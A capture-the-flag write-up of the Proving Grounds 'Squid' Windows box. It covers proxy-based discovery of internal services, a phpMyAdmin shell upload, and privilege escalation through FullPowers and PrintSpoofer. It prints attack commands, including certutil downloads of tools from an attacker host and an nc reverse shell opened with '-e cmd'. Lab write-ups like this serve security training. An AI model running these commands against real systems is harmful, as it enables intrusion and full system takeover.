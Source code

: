 ```yaml
---
title: "Proving Grounds - Squid"
categories: [CTF, Proving Grounds - Play]
tags: [EASY, Windows, Web, Squid, provingrounds]
mermaid: true
image: ../assets/img/provingrounds/offsec.jpeg
---
```


Squid was a challenging box that involved utilizing a Squid proxy to discover internal services, exploiting a phpMyAdmin file upload vulnerability to gain initial access, and then escalating privileges using Windows-specific techniques.

The process included using spose to identify internal services, leveraging the proxy to access a WampServer, and ultimately using FullPowers.exe and PrintSpoofer to gain SYSTEM access. 

This machine was a great way to practice working with proxy configurations and Windows privilege escalation.

# Diagram

```mermaid
graph TD
    A[Host Enumeration]
    A -->|Nmap Scan| B[Identify Squid Proxy]
    B -->|Explore Proxy Configuration| C[Tool: spose]
    C -->|Identify Internal Services| D[Web Service on 8080]
    D -->|Access WampServer| E[Identify phpMyAdmin]
    E -->|Bypass Authentication| F[Upload PHP Shell]
    F -->|Execute Reverse Shell| G[WinPEAS Enumeration]
    G -->|Identify Privilege Escalation| H[Leverage FullPowers.exe]
    H -->|Enable SeImpersonatePrivilege| I[Use PrintSpoofer]
    I -->|Privilege Escalation to SYSTEM| J[Obtain Root Access]
    J -->|Capture Evidence| K[Success]
```


## Information Gathering

### Port Scan
---

- `nmap -sS -Pn -n -T4 192.168.217.189` -p 135,139,445,3128
    
    ![Untitled](../assets/img/provingrounds/Squid/Untitled.png)
    
- `nmap -sVC -p 135,139,445,3128 -n -Pn 192.168.217.189 -v`
    
    ![Untitled](../assets/img/provingrounds/Squid/Untitled%201.png)
    

## Enumeration


### HTTP 80

---

- [http://192.168.217.189:3128/](http://192.168.217.189:3128/) → Apparently the website uses **squid/4.14**
    
    ![Untitled](../assets/img/provingrounds/Squid/Untitled%202.png)
    

Squid is a caching and forwarding HTTP web proxy. It reduces bandwidth and improves response times by **caching** and reusing frequently-requested web pages. 

This is the squid repo https://github.com/squid-cache/squid 

I was searching in the GitHub, etc., but nothing worked. So i decided to try this: 

[https://book.hacktricks.xyz/network-services-pentesting/3128-pentesting-squid](https://book.hacktricks.xyz/network-services-pentesting/3128-pentesting-squid)

- `curl --proxy http://192.168.217.189:3128 http://192.168.45.227` →  *Directory Listening in my own machine*
    
    ![Untitled](../assets/img/provingrounds/Squid/Untitled%203.png)
    

So after a while i decided to try this tool https://github.com/aancw/spose.git 

- `python spose.py --proxy http://192.168.45.227:3128 --target 192.168.45.227`
    
    ![Untitled](../assets/img/provingrounds/Squid/Untitled%204.png)
    

Ok, verifying if it’s an web page running in 8080

- `curl --proxy http://192.168.217.189:3128 http://192.168.217.189:8080`
    
    ![Untitled](../assets/img/provingrounds/Squid/Untitled%205.png)
    

Now setting up an http proxy with the extension Proxy Switcher [https://chrome.google.com/webstore/detail/proxy-switcher-and-manage/onnfghpihccifgojkpnnncpagjcdbjod?ref=benheater.com](https://chrome.google.com/webstore/detail/proxy-switcher-and-manage/onnfghpihccifgojkpnnncpagjcdbjod?ref=benheater.com) 

- `proxy swithcer`
    
    ![Untitled](../assets/img/provingrounds/Squid/Untitled%206.png)
    

And now trying to access it

- [http://192.168.237.189:8080/](http://192.168.237.189:8080/) → It’s a WampServer 3.2.3 - 64bit
    
    ![Untitled](../assets/img/provingrounds/Squid/Untitled%207.png)
    
- [http://192.168.237.189:8080/phpsysinfo/index.php?disp=bootstrap](http://192.168.237.189:8080/phpsysinfo/index.php?disp=bootstrap)
    
    ![Untitled](../assets/img/provingrounds/Squid/Untitled%208.png)
    
- [http://192.168.237.189:8080/phpmyadmin/index.php](http://192.168.237.189:8080/phpmyadmin/index.php) → login panel MySQL - tried default creds (root:)
    
    ![Untitled](../assets/img/provingrounds/Squid/Untitled%209.png)
    
    ![Untitled](../assets/img/provingrounds/Squid/Untitled%2010.png)
    

Verifying some documentation about phpMyAdmin...

[https://www.hackingarticles.in/shell-uploading-web-server-phpmyadmin/](https://www.hackingarticles.in/shell-uploading-web-server-phpmyadmin/) 

[https://gist.github.com/BababaBlue/71d85a7182993f6b4728c5d6a77e669f](https://gist.github.com/BababaBlue/71d85a7182993f6b4728c5d6a77e669f) 

- [http://192.168.237.189:8080/phpmyadmin/db_sql.php?db=hendrich_schema](http://192.168.237.189:8080/phpmyadmin/db_sql.php?db=hendrich_schema)
    
    ![Untitled](../assets/img/provingrounds/Squid/Untitled%2011.png)
    
    ![Untitled](../assets/img/provingrounds/Squid/Untitled%2012.png)
    
- [http://192.168.237.189:8080/uploader.php](http://192.168.237.189:8080/uploader.php)
    
    ![Untitled](../assets/img/provingrounds/Squid/Untitled%2013.png)
    

Reverse shell must be for windows

[https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php)

- [http://192.168.237.189:8080/php_reverse_shell.php](http://192.168.237.189:8080/php_reverse_shell.php)
- `sudo  rlwrap nc -lvnp 80` → Nt authorithy
    
    ![Untitled](../assets/img/provingrounds/Squid/Untitled%2014.png)
    

- `flag`
    
    ![Untitled](../assets/img/provingrounds/Squid/Untitled%2015.png)
    

## Priv Escalation

---

The first thing that i want to do is revoke all firewalls. I’ve tried but the user don’t have permission.

So after a while i decided to put winPEAS inside the machine

- `certutil.exe -urlcache -f http://192.168.45.227/winPEASx64.exe winPEASx64.exe`
    
    ![Untitled](../assets/img/provingrounds/Squid/Untitled%2016.png)
    
- `winPEASx64.exe` → *Apparently* [https://exploit-db.com/exploits/46718](https://exploit-db.com/exploits/46718) *- CVE-2019-0836* [https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/leaked-handle-exploitation](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/leaked-handle-exploitation)
    
    ![Untitled](../assets/img/provingrounds/Squid/Untitled%2017.png)
    
    ![Untitled](../assets/img/provingrounds/Squid/Untitled%2018.png)
    
    ![Untitled](../assets/img/provingrounds/Squid/Untitled%2019.png)
    
    ![Untitled](../assets/img/provingrounds/Squid/Untitled%2020.png)
    

Ok, nothing worked, but after enumerate, and after i saw that i was an nt authority but with “local service’

- `whoami`
    
    ![Untitled](../assets/img/provingrounds/Squid/Untitled%2021.png)
    

I found this [https://itm4n.github.io/localservice-privileges/?ref=benheater.com](https://itm4n.github.io/localservice-privileges/?ref=benheater.com) After read the article i found that he did an script [https://github.com/itm4n/FullPowers/releases](https://github.com/itm4n/FullPowers/releases)

- `certutil.exe -urlcache -f http://192.168.45.227/FullPowers.exe FullPowers.exe`
    
    ![Untitled](../assets/img/provingrounds/Squid/Untitled%2022.png)
    
- `FullPowers.exe -c "C:\Users\Public\Documents\nc.exe 192.168.45.227 4430 -e cmd" -z`
`sudo rlwrap nc -lvnp 4430`
    
    ![Untitled](../assets/img/provingrounds/Squid/Untitled%2023.png)
    

- `whoami /priv` → Now i’ve SeImpersoantePrivilage enabled
    
    ![Untitled](../assets/img/provingrounds/Squid/Untitled%2024.png)
    

So i’ll use the https://github.com/itm4n/PrintSpoofer/releases

- `certutil.exe -urlcache -f http://192.168.45.227/PrintSpoofer64.exe PrintSpoofer64.exe`
    
    ![Untitled](../assets/img/provingrounds/Squid/Untitled%2025.png)
    

- `PrintSpoofer64.exe -i -c cmd` → Priv escalado
    
    ![Untitled](../assets/img/provingrounds/Squid/Untitled%2026.png)
    

- `flag`
    
    ![Untitled](../assets/img/provingrounds/Squid/Untitled%2027.png)